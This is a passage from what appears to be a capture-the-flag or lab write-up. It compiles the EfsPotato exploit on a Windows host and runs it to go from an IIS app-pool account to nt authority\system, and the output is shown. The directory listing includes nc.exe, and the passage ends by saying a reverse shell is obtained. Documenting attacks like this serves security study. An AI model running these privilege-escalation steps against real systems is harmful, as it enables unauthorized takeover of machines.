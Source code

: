 ```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618
```
{: .nolineno}
{: .nolineno}
On this system : 
```powershell
C:\ProgramData>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618
Microsoft (R) Visual C# Compiler version 4.0.30319.33440
for Microsoft (R) .NET Framework 4.5
Copyright (C) Microsoft Corporation. All rights reserved.
C:\ProgramData>
C:\ProgramData>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of C:\ProgramData
10/02/2020  01:39 PM    <DIR>          Amazon
03/06/2024  12:13 AM            25,441 EfsPotato.cs
03/06/2024  12:22 AM            17,920 EfsPotato.exe
03/06/2024  12:00 AM            45,272 nc.exe
08/06/2019  01:12 PM    <DIR>          Package Cache
10/02/2020  02:03 PM    <DIR>          regid.1991-06.com.microsoft
               5 File(s)        493,625 bytes
               3 Dir(s)  39,123,087,360 bytes free
C:\ProgramData>
```
{: .nolineno}
{: .nolineno}

Lets use it to see if it is working or not ⏩
```powershell
C:\ProgramData>.\EfsPotato.exe "whoami"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]
[+] Current user: IIS APPPOOL\Blog
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=e876c8)
[+] Get Token: 656
[!] process with pid: 2176 created.
==============================
nt authority\system
C:\ProgramData>
```
{: .nolineno}
{: .nolineno}

Its time to get a reverse shell through <mark style="background: #FF5582A6;">EfsPotato</mark> Tool.

![Image](Pasted%20image%2020240306135657.png)
_Reverse shell_
